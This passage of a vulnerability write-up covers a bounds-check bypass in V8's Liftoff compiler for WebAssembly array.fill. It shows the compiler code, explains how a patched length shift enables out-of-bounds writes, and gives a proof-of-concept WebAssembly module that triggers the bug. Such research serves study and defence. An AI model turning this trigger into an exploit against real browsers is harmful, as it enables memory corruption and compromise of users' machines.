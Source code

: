 ```cpp
        array.type.is_nullable() &&
        null_check_strategy_ == compiler::NullCheckStrategy::kTrapHandler;
    LoadObjectField(decoder, array_length, array_reg.gp(), no_reg,
                    ObjectAccess::ToTagged(WasmArray::kLengthOffset), kI32,
                    false, implicit_null_check, pinned);
    LiftoffRegister index = pinned.set(__ PeekToRegister(2, pinned));
    LiftoffRegister length = pinned.set(__ PeekToRegister(0, pinned));
    LiftoffRegister index_plus_length =
        pinned.set(__ GetUnusedRegister(kGpReg, pinned));
    DCHECK(index_plus_length != array_length);
    __ emit_i32_add(index_plus_length.gp(), length.gp(), index.gp());
    OolTrapLabel trap =
        AddOutOfLineTrap(decoder, Builtin::kThrowWasmTrapArrayOutOfBounds);
    __ emit_cond_jump(kUnsignedGreaterThan, trap.label(), kI32,
                    index_plus_length.gp(), array_length.gp(),
                    trap.frozen());
    // Guard against overflow.
    __ emit_cond_jump(kUnsignedGreaterThan, trap.label(), kI32, index.gp(),
                    index_plus_length.gp(), trap.frozen());
}
LiftoffRegList pinned;
LiftoffRegister length = pinned.set(__ PopToModifiableRegister(pinned));
LiftoffRegister value = pinned.set(__ PopToRegister(pinned));
LiftoffRegister index = pinned.set(__ PopToModifiableRegister(pinned));
LiftoffRegister obj = pinned.set(__ PopToRegister(pinned));
ArrayFillImpl(decoder, pinned, obj, index, value, length,
                imm.array_type->element_type().kind(),
                LiftoffAssembler::kNoSkipWriteBarrier);
}
```

The function first checks for null arrays, then performs a bounds check by adding the index and length and ensuring the result does not exceed the array's length. The patch modifies this line => `__ emit_i32_add(index_plus_length.gp(), length.gp(), index.gp());`. If the array is a nullable reference, it right-shifts the length by the log2 of the element size before adding it to the `index`. This can result in a much smaller value being checked, potentially allowing out-of-bounds writes.

## The Vulnerability

The bug is straightforward: the bounds check can be bypassed because the length is reduced by a right shift, but the actual write still uses the original (larger) length. This allows for out-of-bounds access. To exploit this, we can create a WebAssembly module with a nullable reference array and use `array.fill` to trigger the bug.

```wat
(module
  (type $A (array (mut i64)))

  ;; Function to create and return an array to JS context
  (func (export "createArray") (result (ref null $A))
    ;; Create array with 12 elements
    (array.new_default $A (i32.const 12))
  )

  ;; Function to trigger the OOB bug with the array
  (func (export "fillArray") (param $a (ref null $A))
    (array.fill $A 
      (local.get $a)
      (i32.const 0)
      (i64.const {value to overwrite})
      (i32.const 0x15)
    )
  )
)
```
